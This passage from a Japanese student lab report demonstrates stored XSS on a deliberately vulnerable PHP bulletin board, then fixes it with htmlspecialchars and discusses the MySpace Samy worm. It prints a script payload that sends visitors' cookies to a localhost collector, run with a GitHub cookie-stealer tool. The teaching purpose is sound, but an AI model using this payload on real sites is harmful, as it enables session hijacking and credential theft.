攻撃者が用意したURLのフラグメントに含まれる不正なスクリプトを,Webページの正規のJavaScriptなどが読み込み.ページのDOM(Document Object Model)を不正に書き換えることでスクリプトが実行される.
この攻撃は,Webサーバのログに不正なコードが残らない場合があり,サーバを経由せずブラウザ上のみで完結するため,検知が難しいという特徴がある\cite{cite3}.

\subsection*{格納型XSSの動作確認}
格納型XSSとは,攻撃者が脆弱性のある第3者のWebアプリケーションに悪意のあるスクリプトを文字照が入力で桐生コメント欄などに直接書き込み,ユーザが書き込まれたページを表示するたびに文字列がスクリプトとして実行される方法である.
配布したファイルに以下のものがあることを確認する.

\begin{enumerate}
\item \texttt{keijiban.php}(掲示板サイトの表示・投稿履歴の記録・表示)
\item \texttt{InputCookie\_keijiban.php}(ログイン情報のクッキー発行)
\item \texttt{keijiban\_history.txt}(掲示板の履歴を記録)
\end{enumerate}

1〜3をhtdocsフォルダに移動し,\texttt{keijiban.php}をブラウザで確認する.
図\ref{fig14}がサイトの概略である.上部にあるユーザID,パスワードを入力しログインを行うことでユーザIDとパスワードのCookieが保存され(有効期限は3分間),掲示板の投稿者がguestからユーザID名に変化する.
掲示板にコメントを投稿すると\texttt{keijiban\_history.txt}にコメントが記録され,掲示板下部に追加される.
サイドページを表示しても\texttt{keijiban\_history.txt}からコメントを読み込むため,サイトに表示されるコメントは残り続ける.\\
掲示板のコメントを削除する場合は\texttt{keijiban\_history.txt}の中身を消すこと.

\begin{figure}[H]
\centering
\includegraphics[width=85mm]{./fig/fig14.eps}
\caption{掲示板サイト概略}
\label{fig14}
\end{figure}

XSSからCookie情報を読み込むプログラムをGitHubから取得する.掲載されているプログラムはバージョンが旧規格Python2のため,PullRequestで掲載されている\texttt{Converted from Python2 to 3}のコミット履歴からソースコードを利用すること.

\begin{table}[H]
\centering
\begin{tabular}{|l|l|l|l|} \hline
https://github.com/lnxg33k/misc/blob/22be5863b9b745b10a438ac23ab83f677d4c41c9/XSS-cookie-stealer.py \\ \hline
\end{tabular}
\end{table}

実行にはPython環境が必要である.ターミナル上で以下のコマンドを入力するとPython環境が導入されているか確認することができる.\\

\begin{lstlisting}
python --version
\end{lstlisting}

導入されていれば,"Python ○.○.○"と表示される.(現行バージョンはPython3.x.x系)

ソースコードを実行する.(cdコマンドでファイルのあるフォルダまで移動すること)

\begin{lstlisting}
python (Pythonファイル名).py
\end{lstlisting}

図\ref{fig15}のようにポート8888番にhttpサーバが経ち,スクリプトからの信号を受信できるようになる.
起動後,掲示板のコメントに以下のソースコード\ref{code7}のコードを書き込み投稿する.

\begin{figure}[H]
\centering

\includegraphics[width=85mm]{./fig/fig15.eps}
\caption{Cookie取得ツールの起動}
\label{fig15}
\end{figure}

\begin{lstlisting}[caption=掲示板に書き込むコード, label=code7]
<script>image=new Image();image.src="http://localhost:8888/cookie?"+document.cookie;</script>
\end{lstlisting}

ソースコード\ref{code7}の投稿後,仮のユーザID,パスワードで掲示板サイトにログインした際の取得ツールの出力結果を図\ref{fig16}に示す.

\begin{figure}[H]
\centering
\includegraphics[width=150mm]{./fig/fig16.eps}
\caption{Cookie取得ツールの動作確認}
\label{fig16}
\end{figure}

出力結果より,入力したIDとパスワードがそのまま取得ツールに流れてしまっていることがわかる.

\subsection*{XSSの対策}
XSSの対処方法には様々な方法がある.今回のサイト例では,コメントの内容をHTMLで動的に表示させる際に,文字列データをスクリプトとして認識してしまうことが原因である.
そのため,スクリプトに用いられるHTMLの特殊文字を単なる文字列として表示するエスケープ処理を行えば,スクリプトの実行を回避できる.

\subsubsection*{課題2:keijiban.phpのソースコードにエスケープ処理を導入し,XSSのソースコードの対策を実施する}

エスケープ処理を導入したコードをソースコード\ref{code8}に示す.

\begin{lstlisting}[caption=keijiban.php, label=code8]
<html>
<head><title>舞鶴高専の楽しい掲示板</title></head>
<body>

ようこそ<?php

if(isset($_COOKIE['id'])){
	// Cookieの値を生データとして保持
	$beforeId = $_COOKIE['id'];
	$beforePass = isset($_COOKIE['pass']) ? $_COOKIE['pass'] : "";
    $name = $_COOKIE['id'];
}else{
	$beforeId = "";
	$beforePass = "";
    $name = "guest";
}
?>
<?=htmlspecialchars($name, ENT_QUOTES, 'UTF-8')?>さん


<form action="InputCookie_keijiban.php" method = "POST" name = "login">
ユーザID:<input type ="text" name = "id" value="<?=htmlspecialchars($beforeId, ENT_QUOTES, 'UTF-8')?>"
<br>
パスワード:<input type ="text" name = "pass" value="<?=htmlspecialchars($beforePass, ENT_QUOTES, 'UTF-8')?>"
<br>

<input type="submit" value="ログイン">
</form>


<p>掲示板</p>
<form method="POST" action="<?php print($_SERVER['PHP_SELF']) ?>" name = "write">
投稿者:<br>
<input type="text" name="personal_name" value="<?=htmlspecialchars($name, ENT_QUOTES, 'UTF-8')?>"><br><br>
コメント:<br>
<textarea name="contents" rows="8" cols="40">
</textarea><br><br>
<input type="submit" name="btn1" value="投稿する">
</form>

<?php

if($_SERVER["REQUEST_METHOD"] == "POST"){
    writeData();
}

readData();

function readData(){
    $keijban_file = 'keijiban_history.txt';

    // ファイルが存在しない場合は作成
    if (!file_exists($keijban_file)) {
        $fp = fopen($keijban_file, 'w');
        if ($fp) {
            fclose($fp);
            // ファイルの権限を設定(すべてのユーザーが読み書き可能)
            chmod($keijban_file, 0666);
        }
        print('<p>まだ投稿がありません。</p>');
        return;
    }

    // ファイルサイズが0の場合
    if (filesize($keijban_file) == 0) {
        print('<p>まだ投稿がありません。</p>');
        return;
    }

    $fp = fopen($keijban_file, 'r');

    if ($fp){
        if (flock($fp, LOCK_SH)){
            while (!feof($fp)) {
                $buffer = fgets($fp);
                if ($buffer !== false) {
                    print($buffer);
                }
            }
            flock($fp, LOCK_UN);
        } else {
            print('<p>ファイルロックに失敗しました</p>');
        }
        fclose($fp);
    } else {
        print('<p>ファイルのオープンに失敗しました</p>');
    }
}

function writeData(){
    if (!isset($_POST['personal_name']) || !isset($_POST['contents'])) {
        print('必要なデータが送信されていません');
        return;
    }
    
    // ユーザー入力をエスケープしてXSS対策
    $personal_name = htmlspecialchars($_POST['personal_name'], ENT_QUOTES, 'UTF-8');
    $contents = htmlspecialchars($_POST['contents'], ENT_QUOTES, 'UTF-8');
    $contents = nl2br($contents);

    $data = "<hr>";
    $data = $data."<p>投稿者:".$personal_name."</p>";
    $data = $data."<p>コメント:</p>";
    $data = $data."<p>".$contents."</p>";

    $keijban_file = 'keijiban_history.txt';

    // ファイルが存在しない場合は適切な権限で作成
    if (!file_exists($keijban_file)) {
        touch($keijban_file);
        chmod($keijban_file, 0666);
    }

    $fp = fopen($keijban_file, 'ab');

    if ($fp){
        if (flock($fp, LOCK_EX)){
            if (fwrite($fp,  $data) === FALSE){
                print('ファイル書き込みに失敗しました');
            }
            flock($fp, LOCK_UN);
        } else {
            print('ファイルロックに失敗しました');
        }
        fclose($fp);
    } else {
        print('ファイルのオープンに失敗しました');
    }
}

?>
</body>
</html>
\end{lstlisting}

エスケープ処理の実装後,図\ref{fig17}に示すようにXSSのコードを投稿してもそのまま掲示板上に表示されてしまうことがわかる.

\begin{figure}[H]
\centering

\includegraphics[width=100mm]{./fig/fig17.eps}
\caption{エスケープ処理実施後の掲示板サイト}
\label{fig17}
\end{figure}
\newpage

\section{考察}
\subsection{考察1}
\textbf{実験結果に対する考察}\\
XSS攻撃に関する考察を行う.

XSS実験では,格納型XSSを実装した掲示板サイトにおいて,JavaScriptコードを投稿することでクッキー情報の窃取が可能であることを確認した.
攻撃者が投稿した悪意のあるスクリプトは,データベースに永続的に保存され,その後サイトを閲覧するすべてのユーザのブラウザで実行される.

この攻撃により以下のような被害が想定される:
\begin{itemize}
\item セッションハイジャック(クッキー情報の窃取)
\item ユーザの個人情報の不正取得
\item フィッシングサイトへの誘導
\item マルウェアの配布
\end{itemize}


実験で実装したエスケープ処理は,掲示板用スクリプト\textttt{keijiban.php}の実装箇所で行った。
具体的には,投稿をファイルに保存する処理を行う\textttt{writeData()}関数の冒頭で,投稿者名と本文に対してPHPの\textttt{htmlspecialchars}を適用した。
表示側でも同様に,フォームの初期値やログイン名を出力する際に\textttt{htmlspecialchars}を用いている.
ただし,本実装は入力時のエスケープを中心とした基本対策にとどまる。より堅牢にするには,出力先のコンテキスト(HTML 本文 / HTML 属性 / JavaScript / URL 等)に応じた適切なエンコードを行うこと,Content-Security-Policy の導入,入力の長さや形式の検査,そしてサーバ側での追加のフィルタリングやログ監視を組み合わせることが重要であると考える.

\subsection{考察2}
\textbf{現実のXSSに対する被害事例を調査}\\
現実のXSSに対する被害事例として,My Spaceワームを挙げる.\\
本事例は,サイバーセキュリティの歴史に残るほど大規模な影響を与えた象徴的な事例である.
XSSの脆弱性を利用した「ワーム」が,巨大SNSを短時間で麻痺させた史上最大級のインシデントである.

\paragraph{どのような攻撃・脆弱性で発生したか}
当時世界最大規模のSNSであったMy Spaceのユーザプロフィール欄の脆弱性が原因となった.
特定のHTMLタグやCSSプロパティにおけるフィルタリング(無害化処理)が不十分で,悪意のあるJavaScriptコードを埋め込むことが可能な格納型XSSの脆弱性があった.

攻撃者のSamy Kamkar氏は,この脆弱性を利用し,自身のプロフィールページに自己増殖するワームを埋め込んだ.
このコードは以下のような動作を自動的に行った.
\newpage
\begin{enumerate}
  \item プロフィールページを閲覧したユーザはのプロフィールに,自分自身のコードをコピーして感染を広げる.
  \item 感染したユーザのプロフィールに「but most of all, samy is my hero.」という一文を自動的に追加する.
  \item 感染したユーザのアカウントからSamy氏自身のアカウントへ友達リクエストを自動で送信する.
\end{enumerate}

\paragraph{実際に発生した被害の内容と深刻さ}
ワームは爆発的に感染を広げ,公開からわずか20時間で100万以上のアカウントに感染した.
友達リクエストも急増し,最終的にSamy氏のアカウントには100万件以上のリクエストが殺到した.
この予期せぬ大量のアクセスとデータの書き換えによりMy Spaceのサーバは高負荷状態に陥り,サービス全体が一時的に停止に追い込まれた.
My Spaceはサービスの緊急停止,原因調査,復旧作業に多大なコストを要した.
世界最大のSNSが一個人の攻撃によって機能不全に陥ったことで,企業の信頼性は大きく失墜した.
この攻撃は愉快犯的なもので,直接的な金銭や個人情報を盗む目的ではなかった.
しかし,結果として甚大な被害をもたらしたため,攻撃者であるSamy Kamkar氏は特定・逮捕された.
彼は司法取引に応じ,3年間の保護観察処分と90日間の社会奉仕活動を命じられ,賠償金の支払いと一定期間のコンピュータの使用禁止という厳しい処分を受けた\cite{cite4}.

\paragraph{予防策・設計対策}
インターネット黎明期の事案であるため,現在とは状況が異なる部分があるがこうした愉快犯的な攻撃によってシステムがダウンしてしまうこともあり得る.
今回挙げた事例では運営側への被害は限定的であったが,例えばそのサイトが扱っている情報やサービスの規模や重要度合いによっては今回のような事例でも金銭的損失などが発生していた可能性も考えられる.
自身がシステムの開発者の立場であった場合,こうした攻撃を防ぐためにフィルタリング処理を行うことはもちろんのこと,プロフィールやコメント欄などの情報を分離して保存し,HTMLタグやスクリプトが実行されないようにするなどの対策を講じることが重要であると考える.
また,セキュリティインシデントが発生した際に早期に発見できるシステム設計・構築を行うことも重要であると考える.

\paragraph{問題が発生した場合の対応方針}
こうした問題が発生した際の対応方針としては,まず被害が拡大しないようにシステムを一時的に停止し,原因の調査と特定を行うことが重要であると考える.
原因究明を行うことで,今後同様の問題が発生しないようにするための対策を講じることができる.
また,ユーザに対しては速やかに状況を説明し,謝罪と再発防止策を伝えることが信頼回復のために重要であると考える.
さらに,法的な問題が発生する可能性もあるため,必要に応じて法的措置を検討することも重要であると考える.

\subsection{考察3}
\textbf{インシデント事例}\\
画面共有で社内情報を社外の人に対して謝って表示し,情報流出してしまう事例

\paragraph{対策方法}
社外とのやりとりを行う際には,PCのログインユーザを変更する,仮想デスクトップを利用するなど,社内情報が表示されないようにする.
また,画面共有を行う前に,表示される画面に社内情報が含まれていないか確認する.

\paragraph{同じような問題が組織内で再発しないようにするためのルール化・運用上の工夫}
社外とのやり取りを行う際は,仮想デスクトップの他,社内で提供される仮想マシンにクラウド経由でログインすることを義務付けるなどして社内の情報を表示しないようにしつつ,必要な情報については取得できるようにする.

\paragraph{ルール以外に個人として心がけること}
会議の前などには自身のPCの画面を整理し,うっかり情報が表示されてしまうなどのミスを防ぐ.\\
また,余裕を持った行動を心がけ,あわててミスをすることがないようにする.

\section{感想}
今回の実験を通して,ウェブセキュリティの重要性と身近な脅威について深く理解することができた.
SQLインジェクションやXSSなどの攻撃手法を実際に体験することで,これらの脆弱性がどれほど簡単に悪用されるかを実感した.
今回構築したシステム以外にも,Node.jsやDjangoなどのフレームワークを用いたウェブアプリケーションにおいても同様の実験を行ってみたいと感じた.

\begin{thebibliography}{99}
\bibitem{cite1} "GETとPOSTの違いについて", Qiita, 2025/10/8取得\\
https://qiita.com/kanataxa/items/522efb74421255f0e0a1
\bibitem{cite2} "【SQL】データを抽出するSELECT分の使い方を基礎から解説, TECH MANIA, 2025/10/8取得\\
https://techmania.jp/blog/sql-select/
\bibitem{cite3} 徳丸 浩, 「体系的に学ぶ安全なWebアプリケーションの作り方 第2版」, SBクリエイティブ, 2018
\bibitem{cite4} "The MySpace Worm.", sany kamkar, 2025/10/8取得\\
https://sa.my/myspace/
\end{thebibliography}
%
\end{document}